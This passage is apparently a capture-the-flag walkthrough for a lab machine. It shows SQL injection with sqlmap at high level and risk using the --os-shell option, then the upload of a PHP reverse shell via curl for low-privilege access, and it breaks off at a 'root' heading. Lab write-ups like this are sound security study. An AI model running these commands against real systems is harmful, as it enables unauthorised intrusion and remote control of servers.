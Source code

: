 - we have one `input`, first thing I'm gonna try is `SQLMAP` for sqlinjection attack.

- saving the SQL payload using Burp
     ![img](https://i.imgur.com/7k8g5LK.png)

- running `SQLMAP`

     ```bash
     sqlmap -r username.req --level 3 --risk 3 --batch --os-shell
     # trying to get a `os-shell` this way
     ```
     
     ![img](https://i.imgur.com/WEZbgc4.png)

     and it worked! let's try and get a proper working shell

- With command execution, establish a persistent shell by transferring a php script and calling it with curl to return a reverse shell on the target.
  
     I will be uploading `php reverse shell`

     ```bash
     cp /usr/share/webshells/php/php-reverse-shell.php rev.php
     ```

     ![img](https://i.imgur.com/FLWILS7.png)
     change the IP

- upload it via curl:

     ![img](https://i.imgur.com/kjY2byf.png)

     got the `low priv` shell access to the box

- we can read the `user.txt` file with current shell.

     ![img](https://i.imgur.com/Crs4ZDe.png)

---

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>


---

## root
